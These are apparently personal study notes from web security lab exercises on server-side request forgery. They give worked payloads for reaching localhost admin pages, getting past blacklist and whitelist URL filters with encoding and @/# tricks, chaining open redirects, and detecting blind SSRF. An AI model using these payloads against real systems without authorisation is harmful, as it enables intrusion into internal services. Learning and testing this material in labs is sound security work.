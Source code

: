 ### Some private (internal) IP address as the target url
See private_ip.py

### Localhost as the target url
> Note: The administrative interface might listen on a different port number

Let's say there's an endpoint which accepts the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```
The result of that request is returned to the client. We can change the req.body to:
```
stockApi=http://localhost/admin
```
which may return us an html for the admin page


### SSRF with blacklist-based input filter
Ways of circumventing blacklists:
- Use an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
- Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

#### Lab:
Let's say we're trying to SSRF into http://localhost/admin but the input is blacklisted
We can try to avade the blacklist by double url encoding "a" letter from /admin
And the req.body becomes: stockApi=http://127.1/%25%36%31dmin

### SSRF with whitelist-based input filters
The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method: 

- You can embed credentials in a URL before the hostname, using the `@` character. For example:
```
https://expected-host:fakepassword@evil-host
```

- You can use the `#` character to indicate a URL fragment. For example:
```
https://evil-host#expected-host
```

- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```
https://expected-host.evil-host
```

- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.

- You can use combinations of these techniques together.

#### Lab:
THere's a check stock endpoint with the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
```
If we change it to:
```
stockApi=http://localhost OR stockApi=http://127.0.0.1
```
We get an err:
```
External stock check host must be `stock.weliketoshop.net`
```
Which indicates that there's a whitelist that contains `stock.weliketoshop.net`

We play around with it and try the following:
```
stockApi=http://random#stock.weliketoshop.net
```
which gives us back the same error:
```
"External stock check host must be stock.weliketoshop.net"
```
which means that it treats random as the url and `stock.weliketoshop.net` as an element on the website

We can try to double-url-encode `#` character and see what we get as a response
```
stockApi=http://localhost%2523stock.weliketoshop.net
```
After double-url encoding it, we get the same err:
```
"External stock check host must be stock.weliketoshop.net"
```
But if we add `@` - we can get a response from `localhost` (which in this case contains a link to `/admin`)
```
stockApi=http://localhost%2523@stock.weliketoshop.net
```

### Open redirection
Let's say the user-submitted URL is strictly validated
But let's also say there are 2 different endpoints:
```
POST /product/stock HTTP/2 
req.body = stockApi=/product/stock/check?productId=1&storeId=1
```
And the second:
```
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/2
```

We can try to modify the req.body of the first endpoint to the following:
```
stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```
And it will include the contents of /admin in the POST /product/stock response
In other words server will return  302 redirection to whatever is specified in `path` param 

## Blind SSRF vulnerabilities
- e.g. check Referer header, you can try to paste a url of your own server and see if it makes requests to it... 

> Note: It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations. 

### Lab: Blind SSRF with out-of-band detection
The lab is very simple. The server extracts value from Referer header and makes a request to the url that is specified in the referrer header.

